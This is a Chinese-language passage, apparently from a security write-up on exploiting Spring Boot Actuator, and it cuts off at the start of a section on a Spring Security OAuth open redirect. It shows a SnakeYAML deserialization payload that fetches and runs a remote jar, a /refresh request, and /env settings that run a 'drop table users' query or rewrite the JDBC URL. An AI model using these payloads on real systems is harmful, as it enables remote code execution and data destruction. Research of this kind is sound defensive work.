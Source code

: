 该请求修改了“ spring.cloud.bootstrap.location”属性，该属性用于加载外部配置并以YAML格式解析它。为了做到这一点，我们还需要调用“/refresh”端点。

```


1.  `POST /refresh HTTP/1.1`
2.  `Host: 127.0.0.1:8090`
3.  `Content-Type: application/x-www-form-urlencoded`
4.  `Content-Length: 0`


```

从远程服务器获取YAML配置时，将使用SnakeYAML库进行解析，该库也容易受到反序列化攻击。有效载荷（yaml-payload.yml）可以通过使用前述的Marshalsec研究生成：

```


1.  `!!javax.script.ScriptEngineManager [`
2.   `!!java.net.URLClassLoader [[`
3.   `!!java.net.URL ["http://artsploit.com/yaml-payload.jar"]`
4.   `]]`
5.  `]`


```

该jar文件的反序列化将触发提供的URLClassLoader的ScriptEngineManager构造函数的执行。jar文件可以在如下地址找到：[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)

5.  /env配置

除了关于执行RCE的地方，还有一些设置也很有用。

\*\*spring.datasource.tomcat.validationQuery = drop + table + users-\*\*允许您指定任何SQL查询，它将针对当前数据库自动执行。它可以是任何语句，包括插入，更新或删除。

**spring.datasource.tomcat.url** = jdbc:hsqldb:[https://localhost:3002/xdb允许您修改当前的JDBC连接字符串。](https://localhost:3002/xdb%E5%85%81%E8%AE%B8%E6%82%A8%E4%BF%AE%E6%94%B9%E5%BD%93%E5%89%8D%E7%9A%84JDBC%E8%BF%9E%E6%8E%A5%E5%AD%97%E7%AC%A6%E4%B8%B2%E3%80%82)

这种设置只在1.x中，在Spring Boot 2.x中，改为了json格式。

### [](#CVE-2019-11269-Spring-Security-OAuth-开放重定向 "CVE-2019-11269 Spring Security OAuth 开放重定向")CVE-2019-11269 Spring Security OAuth 开放重定向

此漏洞为CVE-2019-3778的延伸版本，效果一致

影响版本：

```


1.  `Spring  Security  OAuth  2.3至2.3.5`
2.  `Spring  Security  OAuth  2.2至2.2.4`
3.  `Spring  Security  OAuth  2.1至2.1.4`
4.  `Spring  Security  OAUth  2.0至2.0.17`


```
